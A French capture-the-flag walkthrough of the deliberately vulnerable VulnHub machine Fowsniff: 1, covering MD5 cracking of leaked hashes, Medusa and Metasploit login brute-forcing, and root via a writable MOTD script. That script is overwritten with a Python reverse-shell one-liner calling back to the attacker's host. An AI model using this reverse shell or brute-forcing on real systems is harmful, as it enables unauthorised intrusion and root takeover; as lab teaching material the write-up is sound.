

# Fowsniff: 1

[Fowsniff: 1](https://www.vulnhub.com/entry/fowsniff-1,262/) est une machine virtuelle vulnérable, conçue par Ben Berkowitz alias [berzerk0](https://berzerk0.github.io/GitPage/) en 2017 et publiée sur VulnHub au mois de septembre 2018. L'objectif, comme toujours, est de trouver et d'exploiter des vulnérabilités sur la VM fournie, afin d'obtenir les privilèges d'administration (root) et de récupérer un flag, preuve de l'intrusion et synonyme de validation du challenge. C'est parti pour ce _walkthrough_ ! Attention, spoilers...

## Recherche d'informations

Pour commencer, l'outil [__netdiscover__](https://github.com/alexxy/netdiscover) est utilisé afin de retrouver l'adresse IP de la VM Fowsniff : il s'agit de 192.168.56.101.

```console
root@blinils:~# netdiscover -r 192.168.56.0/24

Currently scanning: Finished!   |   Screen View: Unique Hosts
3 Captured ARP Req/Rep packets, from 3 hosts.   Total size: 180
_____________________________________________________________________________
  IP            At MAC Address     Count     Len  MAC Vendor / Hostname
-----------------------------------------------------------------------------
192.168.56.1    0a:00:27:00:00:10      1      60  Unknown vendor
192.168.56.100  08:00:27:38:27:38      1      60  PCS Systemtechnik GmbH
192.168.56.101  08:00:27:66:85:17      1      60  PCS Systemtechnik GmbH
```

Toute phase d'attaque commence par une analyse du système cible. Un scan [__nmap__](https://nmap.org/book/man.html) va nous permettre à la fois d'identifier les services installés sur le serveur, et d'obtenir des informations sur le système d'exploitation. Il est ainsi notamment possible de se connecter à distance avec SSH (port 22) au serveur Fowsniff ; un serveur Web Apache est par ailleurs installé, accessible via le port 80, peut-être un site vitrine comme lors des précédents CTF résolus, [Raven: 2](/CTF-VulnLabs/raven2) et [Bulldog: 2](/CTF-VulnLabs/bulldog2) ? Enfin, un serveur de messagerie [Dovecot](https://en.wikipedia.org/wiki/Dovecot_(software)) ([IMAP](https://en.wikipedia.org/wiki/Internet_Message_Access_Protocol) et [POP3](https://en.wikipedia.org/wiki/Post_Office_Protocol)) semble être installé, les ports 110 et 143 étant ouverts.

```console
root@blinils:~# nmap -sT -sV -p- 192.168.56.101
Nmap scan report for 192.168.56.101
Host is up (0.00057s latency).
Not shown: 65531 closed ports
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http    Apache httpd 2.4.18 ((Ubuntu))
110/tcp open  pop3    Dovecot pop3d
143/tcp open  imap    Dovecot imapd
MAC Address: 08:00:27:66:85:17 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Leak de mots de passe sur Pastebin

Direction le port 80 et... ouille ouille ouille... tout comme [Bulldog Industries](/CTF-VulnLabs/bulldog1), FowSniff Corp. a été la cible d'un piratage informatique ; le site Web de l'entreprise est temporairement en maintenance et un court message a été adressé aux clients. Une personne malveillante a pu exploiter une vulnérabilité sur le réseau interne de FowSniff Corp. et dérober des informations relatives aux employés de l'entreprise (logins et mots de passe). Par chance, nous explique-t-on, aucune donnée cliente n'a été volée. Tous les employés ont néanmoins reçu comme consigne de changer illico presto leurs mots de passe.



D'autre part, le compte Twitter [@fowsniffcorp](https://twitter.com/FowsniffCorp) de l'entreprise a lui aussi été piraté. L'un des employés utilisait-il le même mot de passe partout ? Quoi qu'il en soit, tous les tweets précédents ont été effacés, et les informations volées ont été diffusées via ce canal d'informations. Voyons voir... sept tweets et deux abonnements, l'un au créateur du CTF [@berzerk0](https://twitter.com/berzerk0) et l'autre au compte [@WorstPasswords](https://twitter.com/WorstPasswords), histoire d'appuyer là où ça fait mal.


Le tweet épinglé du compte @fowsniffcorp renvoie [vers un lien Pastebin](https://pastebin.com/NrAqVeeX), où un dénommé B1gN1nj4 se vante d'avoir piraté le site de FowSniff Corp. En tout, neuf adresses e-mail de l'entreprise ont fuité, accompagnées de leurs mots de passe hashés en MD5. B1gN1nj4 évoque également le serveur de messagerie (vu lors du scan nmap), qui devrait donc être une cible de choix et un élément de la résolution de cette VM. Voyons voir ce que [__John The Ripper__](http://openwall.com/john/) parviendra à faire de tous ces hashs ; notre [dictionnaire préféré](https://wiki.skullsecurity.org/Passwords) est appelé à la rescousse : rockyou.txt !


```console
root@blinils:~# john leak-pastebin.passwords --wordlist=rockyou.txt --format=Raw-MD5
Using default input encoding: UTF-8
Loaded 9 password hashes with no different salts (Raw-MD5 [MD5 128/128 AVX 4x3])
Press 'q' or Ctrl-C to abort, almost any other key for status
scoobydoo2       (seina@fowsniff)
orlando12        (parede@fowsniff)
apples01         (tegel@fowsniff)
skyler22         (baksteen@fowsniff)
mailcall         (mauer@fowsniff)
07011972         (sciana@fowsniff)
carp4ever        (mursten@fowsniff)
bilbo101         (mustikka@fowsniff)
8g 0:00:00:03 DONE (2018-11-26 11:26) 2.216g/s 3973Kp/s 3973Kc/s 10161KC/s       7..*7¡Vamos!
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Huit mots de passe trouvés sur neuf, quelle aubaine ! Stockons toutes ces informations, elles nous seront utiles pour la suite du CTF.

```console
root@blinils:~# john leak-pastebin.passwords --format=Raw-MD5 --show > leak-pastebin.john

root@blinils:~# cat leak-pastebin.john
mauer@fowsniff:mailcall
mustikka@fowsniff:bilbo101
tegel@fowsniff:apples01
baksteen@fowsniff:skyler22
seina@fowsniff:scoobydoo2
mursten@fowsniff:carp4ever
parede@fowsniff:orlando12
sciana@fowsniff:07011972
8 password hashes cracked, 1 left

root@blinils:~# # pour supprimer les deux dernières lignes du fichier
root@blinils:~# tac leak-pastebin.john | sed '1,2 d' | tac > leak-pastebin.tmp

root@blinils:~# mv leak-pastebin.tmp leak-pastebin.john

root@blinils:~# cat leak-pastebin.john
mauer@fowsniff:mailcall
mustikka@fowsniff:bilbo101
tegel@fowsniff:apples01
baksteen@fowsniff:skyler22
seina@fowsniff:scoobydoo2
mursten@fowsniff:carp4ever
parede@fowsniff:orlando12
sciana@fowsniff:07011972

root@blinils:~# # puis on sépare les users des mots de passe
root@blinils:~# cut -f1 -d@ leak-pastebin.john > fowsniff.users
root@blinils:~# cut -f2 -d: leak-pastebin.john > fowsniff.passwords

root@blinils:~# # ou alors on place chaque couple user/password sur la même ligne
root@blinils:~# sed -e "s/@fowsniff:/ /g" < leak-pastebin.john
mauer mailcall
mustikka bilbo101
tegel apples01
baksteen skyler22
seina scoobydoo2
mursten carp4ever
parede orlando12
sciana 07011972

root@blinils:~# sed -e "s/@fowsniff:/ /g" < leak-pastebin.john > fowsniff.credentials
```

## Cassage de mots de passe avec Medusa

Plutôt que de tester toutes les combinaisons à la main, l'outil [__Medusa__](http://foofus.net/goons/jmk/medusa/medusa.html) arrive à la rescousse ! Soit soixante-quatre combinaisons possibles à tester... c'est vrai, après tout, pourquoi les employés ne partageraient-ils pas leurs mots de passe entre eux ?

```console
root@blinils:~# medusa -h 192.168.56.101 -U fowsniff.users -P fowsniff.passwords -M ssh
Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

ACCOUNT CHECK: [ssh] Host: 192.168.56.101 (1 of 1, 0 complete) User: mauer (1 of 8, 0 complete) Password: mailcall (1 of 8 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.101 (1 of 1, 0 complete) User: mauer (1 of 8, 0 complete) Password: bilbo101 (2 of 8 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.101 (1 of 1, 0 complete) User: mauer (1 of 8, 0 complete) Password: apples01 (3 of 8 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.101 (1 of 1, 0 complete) User: mauer (1 of 8, 0 complete) Password: skyler22 (4 of 8 complete)
--snip--
ACCOUNT CHECK: [ssh] Host: 192.168.56.101 (1 of 1, 0 complete) User: sciana (8 of 8, 7 complete) Password: skyler22 (4 of 8 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.101 (1 of 1, 0 complete) User: sciana (8 of 8, 7 complete) Password: scoobydoo2 (5 of 8 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.101 (1 of 1, 0 complete) User: sciana (8 of 8, 7 complete) Password: carp4ever (6 of 8 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.101 (1 of 1, 0 complete) User: sciana (8 of 8, 7 complete) Password: orlando12 (7 of 8 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.101 (1 of 1, 0 complete) User: sciana (8 of 8, 7 complete) Password: 07011972 (8 of 8 complete)
```

Un coup dans l'eau pour SSH. Quid du serveur de messagerie ?

```console
root@blinils:~# medusa -h 192.168.56.101 -U fowsniff.users -P fowsniff.passwords -M imap
Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

ACCOUNT CHECK: [imap] Host: 192.168.56.101 (1 of 1, 0 complete) User: mauer (1 of 8, 0 complete) Password: mailcall (1 of 8 complete)
ACCOUNT CHECK: [imap] Host: 192.168.56.101 (1 of 1, 0 complete) User: mauer (1 of 8, 0 complete) Password: bilbo101 (2 of 8 complete)
ACCOUNT CHECK: [imap] Host: 192.168.56.101 (1 of 1, 0 complete) User: mauer (1 of 8, 0 complete) Password: apples01 (3 of 8 complete)
ACCOUNT CHECK: [imap] Host: 192.168.56.101 (1 of 1, 0 complete) User: mauer (1 of 8, 0 complete) Password: skyler22 (4 of 8 complete)
ACCOUNT CHECK: [imap] Host: 192.168.56.101 (1 of 1, 0 complete) User: mauer (1 of 8, 0 complete) Password: scoobydoo2 (5 of 8 complete)
--snip--
ACCOUNT CHECK: [imap] Host: 192.168.56.101 (1 of 1, 0 complete) User: seina (5 of 8, 4 complete) Password: skyler22 (4 of 8 complete)
ACCOUNT CHECK: [imap] Host: 192.168.56.101 (1 of 1, 0 complete) User: seina (5 of 8, 4 complete) Password: scoobydoo2 (5 of 8 complete)
ACCOUNT FOUND: [imap] Host: 192.168.56.101 User: seina Password: scoobydoo2 [SUCCESS]
ACCOUNT CHECK: [imap] Host: 192.168.56.101 (1 of 1, 0 complete) User: mursten (6 of 8, 5 complete) Password: mailcall (1 of 8 complete)
ACCOUNT CHECK: [imap] Host: 192.168.56.101 (1 of 1, 0 complete) User: mursten (6 of 8, 5 complete) Password: bilbo101 (2 of 8 complete)
--snip--
```

Bingo ! On retrouve le même résultat avec le module ```pop3_login``` de Metasploit.

```console
root@blinils:~# msfconsole --quiet
[*] Starting persistent handler(s)...

msf > use auxiliary/scanner/pop3/pop3_login

msf auxiliary(scanner/pop3/pop3_login) > set RHOSTS 192.168.56.101
RHOSTS => 192.168.56.101

msf auxiliary(scanner/pop3/pop3_login) > set USERPASS_FILE fowsniff.credentials
USERPASS_FILE => fowsniff.credentials

msf auxiliary(scanner/pop3/pop3_login) > set THREADS 4
THREADS => 4

msf auxiliary(scanner/pop3/pop3_login) > run

[-] 192.168.56.101:110    - 192.168.56.101:110 - Failed: 'mauer:mailcall', '-ERR [AUTH] Authentication failed.'
[-] 192.168.56.101:110    - 192.168.56.101:110 - Failed: 'mustikka:bilbo101', '-ERR [AUTH] Authentication failed.'
[-] 192.168.56.101:110    - 192.168.56.101:110 - Failed: 'tegel:apples01', '-ERR [AUTH] Authentication failed.'
[-] 192.168.56.101:110    - 192.168.56.101:110 - Failed: 'baksteen:skyler22', '-ERR [AUTH] Authentication failed.'
[+] 192.168.56.101:110    - 192.168.56.101:110 - Success: 'seina:scoobydoo2' '+OK Logged in.  '
[-] 192.168.56.101:110    - 192.168.56.101:110 - Failed: 'mursten:carp4ever', '-ERR [AUTH] Authentication failed.'
[-] 192.168.56.101:110    - 192.168.56.101:110 - Failed: 'parede:orlando12', '-ERR [AUTH] Authentication failed.'
[-] 192.168.56.101:110    - 192.168.56.101:110 - Failed: 'sciana:07011972', '-ERR [AUTH] Authentication failed.'
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Nous pouvons nous connecter au serveur de messagerie avec les credentials ```seina:scoobydoo2``` !

## Résultat du match : Pneumonie 2 - Sécurité 0

```console
root@blinils:~# telnet 192.168.56.101 110
Trying 192.168.56.101...
Connected to 192.168.56.101.
Escape character is '^]'.
+OK Welcome to the Fowsniff Corporate Mail Server!
USER seina
+OK

PASS scoobydoo2
+OK Logged in.
```

À présent, y a-t-il des mails présents sur le serveur ? Et si oui, quels sont-ils ? ```STAT``` et ```RETR``` feront l'affaire.

```console
STAT
+OK 2 2902

RETR 1
+OK 1622 octets
Return-Path: <stone@fowsniff>
X-Original-To: seina@fowsniff
Delivered-To: seina@fowsniff
Received: by fowsniff (Postfix, from userid 1000)
	id 0FA3916A; Tue, 13 Mar 2018 14:51:07 -0400 (EDT)
To: baksteen@fowsniff, mauer@fowsniff, mursten@fowsniff,
    mustikka@fowsniff, parede@fowsniff, sciana@fowsniff, seina@fowsniff,
    tegel@fowsniff
Subject: URGENT! Security EVENT!
Message-Id: <20180313185107.0FA3916A@fowsniff>
Date: Tue, 13 Mar 2018 14:51:07 -0400 (EDT)
From: stone@fowsniff (stone)

Dear All,

A few days ago, a malicious actor was able to gain entry to
our internal email systems. The attacker was able to exploit
incorrectly filtered escape characters within our SQL database
to access our login credentials. Both the SQL and authentication
system used legacy methods that had not been updated in some time.

We have been instructed to perform a complete internal system
overhaul. While the main systems are "in the shop," we have
moved to this isolated, temporary server that has minimal
functionality.

This server is capable of sending and receiving emails, but only
locally. That means you can only send emails to other users, not
to the world wide web. You can, however, access this system via 
the SSH protocol.

The temporary password for SSH is "S1ck3nBluff+secureshell"

You MUST change this password as soon as possible, and you will do so under my
guidance. I saw the leak the attacker posted online, and I must say that your
passwords were not very secure.

Come see me in my office at your earliest convenience and we'll set it up.

Thanks,
A.J Stone

.
```

OK, ce premier mail est d'ores et déjà une mine d'or et regorge d'informations.

D'après les tweets publiés sur le compte @FowsniffCorp, la fuite de données a été rendue publique entre le 8 et le 9 mars 2018. Quatre jours plus tard, le 13 mars 2018, A.J Stone, probablement le sysadmin de l'équipe — en tout cas d'après B1gN1nj4 sur Twitter — a écrit à tous ses collègues pour leur signifier les raisons de la fuite de données. In fine, l'attaquant a exploité une [injection SQL](https://www.owasp.org/index.php/SQL_Injection) sur le formulaire d'authentification du site, et a pu récupérer l'intégralité de la base de données dont les mots de passe hashés des e-mails {at}fowsniff.

Et la cerise sur le gâteau, le mot de passe établi par défaut pour se connecter en SSH est divulgué en clair, dans le mail. À noter que c'est ce fameux ```stone``` qui est le seul des neuf à avoir un mot de passe suffisamment robuste... en tout cas, qui n'est pas listé dans rockyou.txt.

```
RETR 2
+OK 1280 octets
Return-Path: <baksteen@fowsniff>
X-Original-To: seina@fowsniff
Delivered-To: seina@fowsniff
Received: by fowsniff (Postfix, from userid 1004)
	id 101CA1AC2; Tue, 13 Mar 2018 14:54:05 -0400 (EDT)
To: seina@fowsniff
Subject: You missed out!
Message-Id: <20180313185405.101CA1AC2@fowsniff>
Date: Tue, 13 Mar 2018 14:54:05 -0400 (EDT)
From: baksteen@fowsniff

Devin,

You should have seen the brass lay into AJ today!
We are going to be talking about this one for a looooong time hahaha.
Who knew the regional manager had been in the navy? She was swearing like a sailor!

I don't know what kind of pneumonia or something you brought back with
you from your camping trip, but I think I'm coming down with it myself.
How long have you been gone - a week?
Next time you're going to get sick and miss the managerial blowout of the century,
at least keep it to yourself!

I'm going to head home early and eat some chicken soup. 
I think I just got an email from Stone, too, but it's probably just some
"Let me explain the tone of my meeting with management" face-saving mail.
I'll read it when I get back.

Feel better,

Skyler

PS: Make sure you change your email password. 
AJ had been telling us to do that right before Captain Profanity showed up.
```

Ce message fourmille de petits détails : toujours daté du 13 mars 2018, il s'agit d'un mail rédigé par Skyler Baksteen à Devin Seina. Notre pauvre A.J Stone a reçu une volée de bois vert de la part du directeur régional ; son nom n'est pas cité mais au vu de la description qu'en fait Baksteen, il s'agit sûrement du [Capitaine Haddock](https://fr.wikipedia.org/wiki/Vocabulaire_du_capitaine_Haddock). On y apprend également que Seina a contracté une pneumonie lors d'une excursion en camping, la semaine précédente, et est absent depuis.

D'un point de vue chronologique, cette information est très intéressante : en effet, étant probablement cloué au lit et respectueux du [droit à la déconnexion](https://en.wikipedia.org/wiki/Right_to_disconnect), Seina n'a pas eu vent de l'incident de sécurité et n'a pas encore eu l'occasion de modifier son mot de passe de boîte mail, CQFD.

Enfin, Baksteen indique se sentir fébrile, et préfère éviter d'accentuer sa migraine en lisant le mail de Stone, reçu quelques minutes plus tôt. Se pourrait-il que Baksteen soit lui aussi tombé malade, et n'ait pas pris soin de modifier son mot de passe SSH, tel que préconisé par A.J Stone ?

```console
root@blinils:~# medusa -h 192.168.56.101 -U fowsniff.users -p S1ck3nBluff+secureshell -M ssh
Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

ACCOUNT CHECK: [ssh] Host: 192.168.56.101 (1 of 1, 0 complete) User: mauer (1 of 8, 0 complete) Password: S1ck3nBluff+secureshell (1 of 1 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.101 (1 of 1, 0 complete) User: mustikka (2 of 8, 1 complete) Password: S1ck3nBluff+secureshell (1 of 1 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.101 (1 of 1, 0 complete) User: tegel (3 of 8, 2 complete) Password: S1ck3nBluff+secureshell (1 of 1 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.101 (1 of 1, 0 complete) User: baksteen (4 of 8, 3 complete) Password: S1ck3nBluff+secureshell (1 of 1 complete)
ACCOUNT FOUND: [ssh] Host: 192.168.56.101 User: baksteen Password: S1ck3nBluff+secureshell [SUCCESS]
ACCOUNT CHECK: [ssh] Host: 192.168.56.101 (1 of 1, 0 complete) User: seina (5 of 8, 4 complete) Password: S1ck3nBluff+secureshell (1 of 1 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.101 (1 of 1, 0 complete) User: mursten (6 of 8, 5 complete) Password: S1ck3nBluff+secureshell (1 of 1 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.101 (1 of 1, 0 complete) User: parede (7 of 8, 6 complete) Password: S1ck3nBluff+secureshell (1 of 1 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.101 (1 of 1, 0 complete) User: sciana (8 of 8, 7 complete) Password: S1ck3nBluff+secureshell (1 of 1 complete)
```

Bingo.

```console
root@blinils:~# ssh baksteen@192.168.56.101
baksteen@192.168.56.101's password: 

                            _____                       _  __  __  
      :sdddddddddddddddy+  |  ___|____      _____ _ __ (_)/ _|/ _|  
   :yNMMMMMMMMMMMMMNmhsso  | |_ / _ \ \ /\ / / __| '_ \| | |_| |_   
.sdmmmmmNmmmmmmmNdyssssso  |  _| (_) \ V  V /\__ \ | | | |  _|  _|  
-:      y.      dssssssso  |_|  \___/ \_/\_/ |___/_| |_|_|_| |_|   
-:      y.      dssssssso                ____                      
-:      y.      dssssssso               / ___|___  _ __ _ __        
-:      y.      dssssssso              | |   / _ \| '__| '_ \     
-:      o.      dssssssso              | |__| (_) | |  | |_) |  _  
-:      o.      yssssssso               \____\___/|_|  | .__/  (_) 
-:    .+mdddddddmyyyyyhy:                              |_|        
-: -odMMMMMMMMMMmhhdy/.    
.ohdddddddddddddho:                  Delivering Solutions


   ****  Welcome to the Fowsniff Corporate Server! **** 

              ---------- NOTICE: ----------

 * Due to the recent security breach, we are running on a very minimal system.
 * Contact AJ Stone -IMMEDIATELY- about changing your email and SSH passwords.


Last login: Tue Mar 13 16:55:40 2018 from 192.168.7.36
baksteen@fowsniff:~$ uname -a
Linux fowsniff 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux

baksteen@fowsniff:~$ id
uid=1004(baksteen) gid=100(users) groups=100(users),1001(baksteen)
```

## Élévation de privilèges avec cube.sh

Après plusieurs pérégrinations qui n'ont rien donné — pas de droits sudo pour l'utilisateur ```baksteen```, des exploits recommandés par le script [__linux-exploit-suggester.sh__](https://github.com/mzet-/linux-exploit-suggester) qui ne sont pas compatibles, le binaire gcc pas installé sur le serveur FowSniff, un fichier ```term.txt``` au contenu bien mystérieux et j'en passe... — la solution a finalement pointé le bout de son nez, via une commande qui liste les fichiers appartenant au groupe ```users``` dont ```baksteen``` fait partie.

```console
baksteen@fowsniff:~$ find / -group users -type f 2>/dev/null -not -path "/proc/*"
/tmp/LinEnum.sh
/tmp/linux-exploit-suggester.sh
/opt/cube/cube.sh
/home/baksteen/.cache/motd.legal-displayed
/home/baksteen/Maildir/dovecot-uidvalidity
/home/baksteen/Maildir/dovecot.index.log
/home/baksteen/Maildir/new/1520967067.V801I23764M196461.fowsniff
/home/baksteen/Maildir/dovecot-uidlist
/home/baksteen/Maildir/dovecot-uidvalidity.5aa21fac
/home/baksteen/.viminfo
/home/baksteen/.bash_history
/home/baksteen/.lesshsQ
/home/baksteen/.python_history
/home/baksteen/.bash_logout
/home/baksteen/term.txt
/home/baksteen/.profile
/home/baksteen/.bashrc
--snip-
```

On y retrouve l'énigmatique ```term.txt```... mais qui est donc cette personne ayant inventé l'expression _One Hit Wonder_ ? [William Shatner](https://en.wikipedia.org/wiki/William_Shatner) ? On y retrouve également nos fichiers uploadés __```LinEnum.sh```__ et __```linux-exploit-suggester.sh```__, mais surtout un fichier ```/opt/cube/cube.sh``` particulièrement alléchant !

```console
baksteen@fowsniff:~$ ls -al /opt/cube/
total 12
drwxrwxrwx 2 root   root  4096 Mar 11  2018 .
drwxr-xr-x 6 root   root  4096 Mar 11  2018 ..
-rw-rwxr-- 1 parede users  851 Mar 11  2018 cube.sh

baksteen@fowsniff:~$ cat /opt/cube/cube.sh
printf "
                            _____                       _  __  __  
      :sdddddddddddddddy+  |  ___|____      _____ _ __ (_)/ _|/ _|  
   :yNMMMMMMMMMMMMMNmhsso  | |_ / _ \ \ /\ / / __| '_ \| | |_| |_   
.sdmmmmmNmmmmmmmNdyssssso  |  _| (_) \ V  V /\__ \ | | | |  _|  _|  
-:      y.      dssssssso  |_|  \___/ \_/\_/ |___/_| |_|_|_| |_|   
-:      y.      dssssssso                ____                      
-:      y.      dssssssso               / ___|___  _ __ _ __        
-:      y.      dssssssso              | |   / _ \| '__| '_ \     
-:      o.      dssssssso              | |__| (_) | |  | |_) |  _  
-:      o.      yssssssso               \____\___/|_|  | .__/  (_) 
-:    .+mdddddddmyyyyyhy:                              |_|        
-: -odMMMMMMMMMMmhhdy/.    
.ohdddddddddddddho:                  Delivering Solutions\n\n"

baksteen@fowsniff:/opt/cube$
```

Tiens c'est amusant, on dirait la bannière d'accueil SSH lors de notre connexion en tant que ```baksteen```. Vérifions cela...

```console
baksteen@fowsniff:~$ cat /etc/motd
cat: /etc/motd: No such file or directory

baksteen@fowsniff:~$ cat /etc/pam.d/sshd
# PAM configuration for the Secure Shell service

--snip--
# Print the message of the day upon successful login.
# This includes a dynamically generated part from /run/motd.dynamic
# and a static (admin-editable) part from /etc/motd.
session    optional     pam_motd.so  motd=/run/motd.dynamic
session    optional     pam_motd.so noupdate
--snip--

baksteen@fowsniff:~$ cat /run/motd.dynamic

   ****  Welcome to the Fowsniff Corporate Server! **** 

              ---------- NOTICE: ----------

 * Due to the recent security breach, we are running on a very minimal system.
 * Contact AJ Stone -IMMEDIATELY- about changing your email and SSH passwords.
```

La bannière de connexion est bel et bien composée de deux éléments, ```/run/motd.dynamic``` et ```/opt/cube/cube.sh```. Ce dernier est modifiable à souhait, nous avons les droits d'écriture sur ce fichier. Mais le script est-il exécuté en tant que ```root``` ?

```console
baksteen@fowsniff:~$ echo 'usr/bin/id' > /opt/cube/cube.sh
baksteen@fowsniff:~$ exit
logout
Connection to 192.168.56.101 closed.

root@blinils:~# ssh baksteen@192.168.56.101
baksteen@192.168.56.101's password: 
uid=0(root) gid=0(root) groups=0(root)

   ****  Welcome to the Fowsniff Corporate Server! **** 

              ---------- NOTICE: ----------

 * Due to the recent security breach, we are running on a very minimal system.
 * Contact AJ Stone -IMMEDIATELY- about changing your email and SSH passwords.


Last login: Mon Nov 26 17:17:17 2018 from 192.168.56.102
```

Oui oui oui, mille fois oui ! Un _reverse shell_ avec Python fera parfaitement l'affaire (et avec python3, c'est encore mieux !). ```nc -nlvp 12345``` sur notre machine, ```python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.102",12345));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'``` dans le fichier ```cube.sh``` et nous obtenons notre shell, après la connexion réussie et l'exécution du fichier ```cube.sh``` pour la bannière d'accueil !

```console
baksteen@fowsniff:~$ vi /opt/cube/cube.sh
baksteen@fowsniff:~$ cat /opt/cube/cube.sh
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.102",12345));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
baksteen@fowsniff:~$ exit
logout
Connection to 192.168.56.101 closed.

root@blinils:~# ssh baksteen@192.168.56.101
baksteen@192.168.56.101's password: 
```

Au même moment dans un autre terminal, on récupère la connexion en tant que ```root``` et par la même occasion le flag tant convoité !

```console
root@blinils:~# nc -nlvp 12345
listening on [any] 12345 ...
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.101] 41308
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)

# wc -c /root/flag.txt
582 flag.txt

# tail -n4 /root/flag.txt
This CTF was built with love in every byte by @berzerk0 on Twitter.

Special thanks to psf, @nbulischeck and the whole Fofao Team.
```

## Conclusion

Ce CTF était vraiment très plaisant à résoudre. J'aime beaucoup ce type de VM avec un scénario réaliste ; en l'occurrence, [berzerk0](https://berzerk0.github.io/GitPage/) a particulièrement soigné les détails : création d'un compte Twitter, mise en place d'un Pastebin, rédaction des e-mails... tout était ordonné et très bien ficelé ! Un grand merci à Ben Berkowitz pour la confection de cette VM !